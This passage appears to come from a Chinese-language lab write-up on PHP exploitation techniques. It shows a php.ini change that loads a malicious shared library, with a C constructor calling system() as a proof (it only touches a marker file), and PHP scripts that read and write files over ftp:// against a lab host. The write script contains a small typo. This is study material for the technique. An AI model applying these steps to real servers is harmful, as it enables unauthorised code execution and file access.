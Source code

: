 在另一台192.168.187.3上访问这个恶意服务，期间传输的文件就会被转发到192.168.187.3自己的12345端口

![image-20211112233757565](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112233757565.png)

#### php加载恶意.so文件

修改php.ini /etc/php/7.4/cli/php.ini

```ini
[PHP]
extension=/home/amelia/TEMP/fpm/wuhu.so
```

C源码

```c
#define _GNU_SOURCE
#include <stdlib.h>

__attribute__ ((__constructor__)) void preload (void){
        system("touch /home/amelia/TEMP/fpm/pwned");
}
```

编译为.so

```bash
gcc wuhu.c -o wuhu.so --shared -fPIC
```

运行php即触发恶意.so

![image-20211112162658685](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112162658685.png)

#### 令php使用ftp://

/etc/php/7.4/cli/php.ini

```ini
allow_url_fopen = On
```

ftp读 注意后面的路径都需要绝对路径

```php
<?php
@var_dump(file_get_contents($argv[1]));
```

```bash
php ftp_read.php 'ftp://test:test@192.168.187.3/home/test/flag.txt'
```

![image-20211112215002622](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112215002622.png)

ftp写

```php
<?php
@var_dump(file_put_contents($argv[1], $agrv[2]));
```
